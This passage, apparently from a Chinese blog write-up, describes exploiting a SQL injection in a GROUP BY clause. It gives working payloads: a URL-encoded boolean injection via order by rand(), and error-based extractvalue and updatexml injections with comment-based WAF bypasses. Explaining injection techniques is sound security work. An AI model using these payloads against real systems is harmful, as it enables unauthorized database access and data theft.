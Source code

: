 可以看到这里的group by 是存在拼接的，这个id是可控的，很明显是一个注入点。

把SQL语句简化以下就是：

```
select 1,2,3...,17 from table were table.a is null group by table.id
```

这其中的id是可控的，传进去就会与table.进行拼接，像这个group by位置的注入点，我很少有见到。

先说结果，注出来了，有waf，最后的几种payload:

```sql
# 转换成order by，利用rand()进行条件布尔注入：id order by rand(substr(version(),1,1)=&#39;8&#39;)，url编码绕过waf
id&#43;order&#43;by&#43;rand(%73%75%62%73%74%72%28%76%65%72%73%69%6f%6e%28%29,1,1)=&#39;8&#39;)
# 报错注入，id and extractvalue(0x5c,concat(1,(select version())))
id/**/and/**/extractvalue(0x5c,concat(&#39;~&#39;,/*!60000select*//**/version()))
# 报错注入，
id/**/and/**/updatexml(1,concat(0x7e,(/*!12345select*//**/version()),0x7e),1)
```

布尔注入的顺序会不同，得出版本：

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161739431.png)

这里我字符加少了，只加了数字0-9，字母a-f，和符号.号，但版本的话大部分情况下数字0-9，加上符号点号.，够用了。如果是数据库名的话，想要全一点就是大小写字母&#43;数字&#43;短杠和下划线。

报错注入截图：

extractvalue语句：

